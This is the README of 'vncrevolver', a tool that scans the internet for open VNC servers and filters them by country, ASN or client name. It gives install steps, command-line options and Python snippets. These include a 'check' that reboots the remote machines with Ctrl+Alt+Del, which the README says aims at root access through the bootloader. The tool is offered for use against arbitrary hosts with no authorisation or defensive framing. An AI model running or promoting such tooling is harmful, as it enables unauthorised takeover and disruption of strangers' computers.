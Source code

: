# VNCREVOLVER
## Automate search for open VNC servers
![vnc](https://github.com/cristiancmoises/vncrevolver/assets/86272521/18f2c15d-2232-47f4-b713-093af67daa7a)

# Table Of Contents

* [`Dependencies`](#required)
* [`Install`](#install)
* [`Features`](#features)
* [`Usage`](#commands)


## Required:
     pip install pydantic 
     pip install asyncvnc 
     pip install aiohttp

# Install:
    git clone https://github.com/cristiancmoises/vncrevolver
    cd vncrevolver
# Features
|    Some Features                                                                   |
|------------------------------------------------------------------------------------|
| 🌎  _Search for many open Vnc Servers around the world_                             |
| 📍 _Filter by country_                                                             |
| 🔢   _List more than one_                                                            |
| 🖥️  _List by Client name_                                                            |
| ✅  _Checks them for vulnerabilities by rebooting the machine via Ctrl+ALT+DEL, obtaining root access through the operating system bootloader easyly._ |

# Commands
## BASIC:
    python -m vncrevolver
    
## DEEP SEARCH:
    python -m vncrevolver --clientname ubuntu --count 10

## CTRL + ALT + DEL  | CHECK
    python -m vncrevolver --clientname ubuntu --count 10 --check_crt_alt_del

## CHECK A SPECIFIC ADDRESS:
    python -m vncrevolver --check_crt_alt_del 123.12.1.23:5901

> # START ME UP!   
    $ python -m vncrevolver --help

    usage: vncrevolver [-h] [--clientname CLIENTNAME] [--country COUNTRY] [--asn ASN]  [--count COUNT] [--check_crt_alt_del [CHECK_CRT_ALT_DEL]] [--show_failed] [--screen_delay SCREEN_DELAY]

    optional arguments:
    -h, --help            show this help message and exit
    --clientname CLIENTNAME
                        Filter by client name, note that it is case-sensitive!
    --country COUNTRY     Filter by ISO 3166-1 alpha-2 country code
    --asn ASN             Filter by ASN
    --count COUNT         Number of VNCs to find
    --check_crt_alt_del [CHECK_CRT_ALT_DEL]
                        If you specify this parameter without a value, only those VNCs from the search that pass the ctrl_alt_del check will be returned. If a value is passed, it must be a VNC
                        address that will be checked against ctrl_alt_del.
    --show_failed         Return VNCs that failed the ctrl_alt_del check
    --screen_delay SCREEN_DELAY
                        Delay between taking two screenshots in milliseconds


> # Use filters:

    from typing import List
    from vncrevolver.search import VNC, search_filter

    hosts: List[VNC] = await search_filter(clientname='ubuntu')
    for vnc in hosts:
    print(vnc.ip, vnc,port)

> # Random Search
    from vncrevolver.search import VNC, search_random
    vnc: VNC = await search_random()
    print(vnc.ip, vnc.port)
  
> # Ctrl + ALT + DEL - CHECK UP!
    from vncrevolver.search import VNC, search_random
    from vncrevolver.vnc import check_crt_alt_del
    vnc: VNC = await search_random()
    print(await check_crt_alt_del(vnc.ip, vnc.port))

    
![FollowTheWhiteRabbit](https://github.com/cristiancmoises/vncrevolver/assets/86272521/87e35e4b-499b-4651-a733-0fc993d4a985)

   
